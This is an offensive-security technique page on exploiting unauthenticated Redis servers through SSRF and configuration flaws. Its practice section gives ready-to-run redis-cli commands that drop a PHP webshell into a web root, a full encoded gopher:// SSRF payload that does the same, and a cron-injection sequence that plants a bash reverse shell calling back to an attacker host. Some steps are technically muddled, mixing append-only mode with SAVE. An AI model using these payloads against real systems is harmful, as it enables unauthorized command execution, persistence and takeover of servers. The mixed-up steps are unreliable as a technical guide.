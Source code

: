 ```yaml
---
title: 'Redis Exploitation: Command Execution Techniques'
description: Explore Redis exploitation techniques for unauthorized command execution
  using SSRF and configuration flaws.
keywords:
- Redis exploitation
- SSRF
- command execution
- unauthenticated access
- CONFIG SET
- SAVE command
- webshell
- reverse shell
- gopher payload
---
```


# Redis Exploitation

## Context

Redis exploitation enables attackers to achieve command execution on Redis servers by leveraging Server-Side Request Forgery (SSRF) and exploiting unauthenticated misconfigurations. This technique assumes knowledge of server-side request forgery, command execution mechanisms, and Redis configurations.

## Theory

### Redis as an SSRF Target

Redis is an in-memory data store that operates over the TCP protocol, often configured to run on internal networks. Thus, it becomes an attractive target for SSRF exploits. Attackers can craft SSRF payloads that interface with Redis to issue commands or alter its state. If Redis lacks proper authentication, it allows an attacker to control data and issue commands directly to the server.

### Unauthenticated Command Execution in Redis

Default Redis installations may not require authentication, which could leave the server vulnerable to arbitrary command executions when exposed or accessible through misconfigured network settings. Redis inherently trusts clients on internal networks, operating under the assumption that no malicious activity will originate from these sources.

### Abusing CONFIG SET and SAVE for File Write

Redis provides the command `CONFIG SET` to adjust its configuration dynamically, while the command `SAVE` forces a snapshot of the in-memory data to be written to disk. Attackers can exploit these functionalities by setting the database directory (dir) and file name (`dbfilename`) to a location within the web root. They can then store malicious scripts, like a PHP webshell, as key-value pairs and use the `SAVE` command to drop the payload into the desired location, gaining unauthorized control.

### Payload Delivery via SSRF: dict:// and gopher://

SSRF payloads can exploit the `dict://` and `gopher://` protocols to inject raw Redis protocol commands. The `gopher://` protocol, in particular, handles binary-safe payloads, making it effective in bypassing input filters that would block or sanitize `dict://` payloads. This capability allows attackers to seamlessly deliver crafted commands to Redis.

## Practice

### Webshell Drop via CONFIG SET and SAVE

To execute commands on a vulnerable Redis server and drop a webshell, follow these steps:

- Set the Redis database directory to the web server root directory:
    ```bash
    redis-cli -h <target_redis_ip> -p <port> CONFIG SET dir /var/www/html/
    ```

- Set the database file name to end in `.php` so it can be interpreted as a PHP script:
    ```bash
    redis-cli -h <target_redis_ip> -p <port> CONFIG SET dbfilename shell.php
    ```

- Store the PHP webshell in Redis as a key:
    ```bash
    redis-cli -h <target_redis_ip> -p <port> SET webshell "<?php system($_GET['cmd']); ?>"
    ```

- Enable append-only file (AOF) mode to write the payload as plain text:
    ```bash
    redis-cli -h <target_redis_ip> -p <port> CONFIG SET appendonly yes
    ```

- Append the PHP webshell payload to the AOF file:
    ```bash
    redis-cli -h <target_redis_ip> -p <port> APPEND webshell "<?php system($_GET['cmd']); ?>"
    ```
This sequence writes the PHP webshell to the specified location on the server, allowing remote command execution through the webshell.

### SSRF Payload Injection via gopher://

Inject the following gopher payload using SSRF to drop a PHP webshell:

```text
gopher://<redis_ip>:6379/_*3%0d%0a$3%0d%0aSET%0d%0a$9%0d%0awebshell%0d%0a$26%0d%0a<?php system($_GET['cmd']); ?>%0d%0a*3%0d%0a$6%0d%0aCONFIG%0d%0a$3%0d%0aSET%0d%0a$3%0d%0adir%0d%0a$15%0d%0a/var/www/html/%0d%0a*3%0d%0a$6%0d%0aCONFIG%0d%0a$3%0d%0aSET%0d%0a$10%0d%0adbfilename%0d%0a$9%0d%0ashell.php%0d%0a*1%0d%0a$4%0d%0aSAVE%0d%0a
```

This payload facilitates the creation of a webshell that enables attackers to perform unauthorized actions on the server.

### Reverse Shell via Redis Key Injection

Another method involves injecting a reverse shell command into the server's cron job using Redis commands. Follow these steps:

- Inject a cron job entry that opens a reverse shell back to an attacker's machine:
    ```bash
    redis-cli -h <target_redis_ip> -p <port> SET cron "* * * * * bash -i >& /dev/tcp/<attacker_ip>/<attacker_port> 0>&1"
    ```

- Set the Redis directory to point to the cron directory where entries can be automatically scheduled:
    ```bash
    redis-cli -h <target_redis_ip> -p <port> CONFIG SET dir /var/spool/cron/
    ```

- Set the file name in the cron directory:
    ```bash
    redis-cli -h <target_redis_ip> -p <port> CONFIG SET dbfilename root
    ```

- Enable append-only mode to ensure the cron job entry is written in plain text:
    ```bash
    redis-cli -h <target_redis_ip> -p <port> CONFIG SET appendonly yes
    redis-cli -h <target_redis_ip> -p <port> CONFIG REWRITE
    ```

If executed with sufficient permissions, this method allows privilege escalation through persistent access to the system.

## Tools

- **redis-cli**
- **Burp Suite**
- **curl**